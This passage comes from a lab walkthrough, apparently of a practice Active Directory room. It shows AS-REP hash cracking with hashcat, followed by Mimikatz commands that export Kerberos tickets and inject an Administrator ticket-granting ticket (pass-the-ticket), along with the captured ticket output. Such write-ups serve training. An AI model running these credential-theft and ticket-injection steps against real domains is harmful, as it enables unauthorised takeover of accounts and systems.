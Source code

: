 Two AS-REP hashes. One for Admin2 and one for user3. And this is where it gets tricky. I was stuck 
here for a full day.

Copy the hashes separately into file on the linux machine (user3.txt and admin2.txt):

* name the file after the found username followed by .txt
* Insert 23$ after $krb5asrep$ so that the first line will be $krb5asrep$23$User…..
* Make sure there are no spaces when saving it to a txt file

The hash type of AS-REP Roasting is Kerberos 5 AS-REP etype 23 (mode 18200 for hashcat):

    hashcat -m 18200 user3.txt Pass.txt
    hashcat -m 18200 admin2.txt Pass.txt

## Pass the ticket

ssh into the machine:

    $ ssh administrator@<Machine_IP>

Move to the directory where Mimikatz is and start her up:

    cd Downloads
    dir
    mimikatz.exe

If the following command does not return `output '20' OK`, you do not have the administrator privileges to run mimikatz.
    
    mimikatz # privilege::debug
    output '20' OK

Export all `.kirbi` tickets into the directory that you are currently in:

    mimikatz # sekurlsa::tickets /export

It takes a bit of puzzling to find the Administrator ticket. But I found it:

```text
        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/20/2022 8:34:55 AM ; 9/20/2022 6:34:55 PM ; 9/27/2022 8:34:55 AM
           Service Name (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Target Name  (02) : krbtgt ; CONTROLLER.LOCAL ; @ CONTROLLER.LOCAL
           Client Name  (01) : Administrator ; @ CONTROLLER.LOCAL ( CONTROLLER.LOCAL )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             8d36d5959add7925a6858358c89c110542d58859ed2322ceb064db6f74238534
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;1c4707]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi !
```

Cache and impersonate the ticket:

    mimikatz # kerberos::ptt [0;1c4707]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi
    
    * File: '[0;1c4707]-2-0-40e10000-Administrator@krbtgt-CONTROLLER.LOCAL.kirbi': OK
